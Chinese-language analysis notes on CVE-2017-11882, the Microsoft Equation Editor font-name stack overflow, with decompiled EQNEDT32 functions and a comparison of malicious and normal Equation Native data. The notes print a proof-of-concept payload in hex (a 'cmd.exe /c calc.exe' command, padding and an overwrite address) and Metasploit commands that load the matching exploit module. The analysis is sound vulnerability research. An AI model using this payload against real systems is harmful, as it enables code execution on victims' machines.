



# 一些知识
## poi

如果一个地址为0×00123456的指针, 指向地址0×00420000
那么下面两条指令是等价的:
    
    0:000> dd 420000 
    0:000> dd poi(123456)

## dds dqs dps
dds、dps和dqs命令显示给定范围内存的内容,它们是把内存区域转储出来，并把内存中每个元素都视为一个符号对其进行解析，dds是四字节视为一个符号，dqs是每8字节视为一个符号，dps是根据当前处理器架构来选择最合适的长度

## 数据对象和数据源 (OLE)

使用剪贴板或拖放时，可以将执行的数据传输，因此，数据源有一个和一个目标。 一个应用程序对复制的数据，而另一应用程序接受它粘贴的。 转发需要的每端对相同数据的不同操作但为了向前成功。 Microsoft 基础类 (MFC)库提供表示此转发的每端的两类：

    实现的数据源 (由 COleDataSource 对象表示) 传输数据的源端。 这些按源应用程序创建数据，则将复制到剪贴板时，或者在拖放操作的数据时提供。
    
    实现的数据对象 (由 COleDataObject 对象表示) 数据传输的目标边。 它们创建时，目的应用的数据删除到该时，或者当请求运行从剪贴板中粘贴操作。

## 工具
    
    利用oletools中的rtfobj将rtf中的ole数据dump出来
    再利用OleFileView查看关键结构及其内容

## IPersistStorage

IPersistStorage：使容器应用程序能够将存储对象传递给其包含的对象之一，并加载和保存存储对象。

## msfconsole

    $ search CVE-2017-11882
    $ use exploit/windows/fileformat/office_ms17_11882
    $ info

## Equation Native数据结构

结构体来源：

    http://rtf2latex2e.sourceforge.net/MTEF3.html#header_v2+
    http://web.archive.org/web/20010304111449/http://mathtype.com:80/support/tech/MTEF_storage.htm

Equation Native = EQNOLEFILEHDR + MTEFData
其中 MTEFData = MTEF header + MTEF Byte Stream

EQNOLEFILEHDR的结构如下(图1)：

(图1)

MTEF header的结构如下(图2)，实际发现通过office 2007插入的公式其product subversion字段恒定为0x0A，这与下图有所出入：

(图2)

MTEF Byte Stream的结构如下(图3)，可以看到它由一个SIZE record及后续的一些record构成，各种record的类别如图(图4)所示，其中对于本次漏洞相关的Font record的说明如图(图5)所示。

(图3)

(图4)

(图5)

## exploit.rtf中的Equation Native数据

**(图6)**

    ---- EQNOLEFILEHDR ----
    
    1C 00-> cbHdr 
    00 00 02 00  -> version
    9E C4 		 -> cf
    A9 00 00 00  -> cbObject,MTEF数据长度，按字节计算，该exp为0xA9(169)，即下面从MTEF header开始的直到结束的部分
    00 00 00 00  -> reserved1
    C8 A7 5C 00  -> reserved2
    C4 EE 5B 00  -> reserved3
    00 00 00 00  -> reserved4
    
    ---- MTEFData ----
    ---- MTEF header (version 2 and later) ----
    
    03 -> MTEF version
    01 -> generating platform (0 for Macintosh, 1 for Windows)
    01 -> generating product  (0 for MathType, 1 for Equation Editor)
    03 -> product version
    0A -> product subversion
    
    ---- MTEF Byte Stream ----
    
    0A -> record SIZE
    01 -> 
    08 -> FONT
    5A -> typeface number 
    5A -> style
    
    ---- font name (null-terminated) ----
    63 6D 64 2E 65 78 65 20 2F 63 20 63 61 6C 63 2E
    65 78 65 20 41 41 41 41 41 41 41 41 41 41 41 41
    41 41 41 41 41 41 41 41 41 41 41 41 12 0C 43 00
    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

## 正常rtf中的Equation Native数据

**(图7)**

**(图8)**

---- EQNOLEFILEHDR ----

    1C 00-> cbHdr 
    00 00 02 00  -> version
    FF C1 		 -> cf
    24 00 00 00  -> cbObject,MTEF数据长度，按字节计算，该正常rtf为0x24(36)，即下面从MTEF header开始的直到结束的部分
    00 00 00 00  -> reserved1
    00 00 00 00  -> reserved2
    1C DA 31 00  -> reserved3
    00 00 00 00  -> reserved4
    
    ---- MTEFData ----
    ---- MTEF header (version 2 and later) ----
    
    03 -> MTEF version
    01 -> generating platform (0 for Macintosh, 1 for Windows)
    01 -> generating product  (0 for MathType, 1 for Equation Editor)
    03 -> product version
    0A -> product subversion
    
    ---- MTEF Byte Stream ----
    
    0A -> record SIZE
    
    01 03 01 00 00 01 02 88 36 00 02 88 36 00 02 88
    36 00 00 02 96 28 00 02 96 29 00 00 00 00

通过上面的观察我们已经发现，所有插入的Equation Native数据在截止到SIZE record的数据排布都是一致的，不同之处在于恶意的Equation Native在SIZE record后放了一个Font record，其数据构成为：

Font record = tag(固定为8，占一个字节) +  typeface(占一个字节) + style(占一个字节) + font_name(以0x00结尾的字符串)

观察发现typeface和style这两个字节比较随意(分析多个poc里面这两个字节并不相同)，实际构造时，我把两个字节改成其他的一些值(例如全为0)并不影响漏洞的触发。

## 对Equation Native数据的具体解析

Eqnedt32在如下位置读入font tag.

    int __cdecl sub_43755C(int a1)
    {
      int result; // eax@1
      int v2; // eax@5
      int v3; // ST48_4@6
      int v4; // ST34_4@20
      int v5; // ST28_4@41
      int v6; // [sp+18h] [bp-3Ch]@24
      int v7; // [sp+18h] [bp-3Ch]@37
      int v8; // [sp+1Ch] [bp-38h]@25
      int i; // [sp+24h] [bp-30h]@17
      int v10; // [sp+2Ch] [bp-28h]@9
      int v11; // [sp+30h] [bp-24h]@6
      int v12; // [sp+38h] [bp-1Ch]@0
      __int16 v13; // [sp+3Ch] [bp-18h]@5
      int v14; // [sp+40h] [bp-14h]@9
      int v15; // [sp+40h] [bp-14h]@32
      __int16 v16; // [sp+44h] [bp-10h]@5
      int v17; // [sp+4Ch] [bp-8h]@8
      int v18; // [sp+50h] [bp-4h]@1
    
      v18 = *(_DWORD *)(dword_45B380 + 4);
      sub_426ADE();
      result = a1;
      if ( *(_DWORD *)(a1 + 8) )
      {
    sub_420E60();
    sub_420E72(1);
    if ( sub_43A988(a1, v18) )
    {
      if ( !*(_DWORD *)(v18 + 46) )
    sub_4318E1(v18);
      LOWORD(v2) = (unsigned __int8)inc_and_get_byte_from_counter_offset();// Read font tag(8) 
      v13 = sub_43A720(v2, &v16);

随后将tag传入sub_43A720函数，并进一步传入其子函数sub_43A87A进行判断，如下所示：

    __int16 __cdecl sub_43A87A(__int16 a1)
    {
      while ( 1 )
      {
    if ( (a1 & 0xF) == 8 ) ------> 此处堆font 数据进行处理
    {
      sub_43B418();
      goto LABEL_5;
    }
    if ( (a1 & 0xF) < 9 )
      return a1;
    sub_43B1D0(a1, &word_45B246, &word_45B244);
    LABEL_5:
    a1 = (unsigned __int8)inc_and_get_byte_from_counter_offset();
      }
    }

在sub_43B418函数中，首先读取font record中代表typeface和style的两个字节，如下所示：

    int sub_43B418()
    {
      __int16 v0; // ST18_2@1
      int result; // eax@1
      char v2; // [sp+14h] [bp-104h]@1
    
      v0 = (unsigned __int8)inc_and_get_byte_from_counter_offset(); ---> typeface
      inc_and_get_byte_from_counter_offset(); ----> style
      sub_4164FA(&v2);
      result = sub_4214C6(&v2);
      word_45ABE6[v0] = result;
      return result;
    }

随后的sub_4164FA开始逐个读入字节读入font name的数据，直到遇到一个NULL，如下所示

    char *__cdecl sub_4164FA(char *a1)
    {
      char *v1; // ST0C_4@1
      char *result; // eax@2
    
      do
      {
    v1 = a1++;
    *v1 = inc_and_get_byte_from_counter_offset();
      }
      while ( *v1 );
      result = a1;
      *a1 = 0;
      return result;
    }

读入font name后，再调用sub_4214A6函数进行一些处理，由于前面读入的font name数据过长，从而导致在sub_4214A6函数内部再进入几层调用后导致栈溢出

    __int16 __cdecl sub_4214C6(int buffer, int a2)
    {
      __int16 v3; // [sp+Ch] [bp-8h]@1
      int v4; // [sp+10h] [bp-4h]@1
    
      LongFont_struct_Overflow(buffer, a2, 1, &v4);
      v3 = sub_421D5D(v4);
      if ( !v3 )
    v3 = sub_421DB8(v4);
      sub_42159A();
      return v3;
    }

